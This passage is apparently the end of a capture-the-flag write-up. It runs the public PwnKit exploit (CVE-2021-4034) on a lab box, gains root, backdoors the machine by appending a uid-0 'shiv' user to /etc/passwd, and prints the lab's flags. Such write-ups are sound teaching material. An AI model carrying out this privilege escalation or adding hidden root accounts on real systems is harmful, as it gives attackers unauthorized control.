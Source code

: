 I found this exploit → [Exploit](https://github.com/mebeim/CVE-2021-4034)

I followed the steps , transfered all the exploit files into the victim machine and got root →

```bash
www-data@ICSSteam:/tmp$ ./exploit.sh                       
Pwned!
# /bin/bash -i
root@ICSSteam:/tmp# whoami
root
root@ICSSteam:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@ICSSteam:/tmp# cd /root
root@ICSSteam:/root# ls -al
total 44
drwx------  4 root root 4096 Mar  5  2023 .
drwxr-xr-x 25 root root 4096 Feb 20  2023 ..
-rw-------  1 root root 2248 Mar  5  2023 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Feb  8  2023 .cache
drwxr-xr-x  2 root root 4096 Feb  9  2023 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root  139 Mar  5  2023 root.txt
-rwxr-xr-x  1 root root 8824 Mar  5  2023 solve
root@ICSSteam:/root# cat root.txt
To get the root flag you have execute the solve.

But only after being the actual root of this system otherwise you will not get the flag.
root@ICSSteam:/root# echo "shiv:`openssl passwd root`:0:0:root:/root:/bin/bash" >> /etc/passwd
root@ICSSteam:/root# su shiv
root@ICSSteam:~# ./solve
4996cb979f225ba0581190fbcf3bdf5f  -
root@ICSSteam:~#
```
{: .nolineno}
{: .nolineno}

I also got user.txt file →

```bash
root@ICSSteam:/home/icss# cat user.txt
7e902d2cf294d4909690936388b64cd5  -
root@ICSSteam:/home/icss#
```
{: .nolineno}
{: .nolineno}

Now I can access anything !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }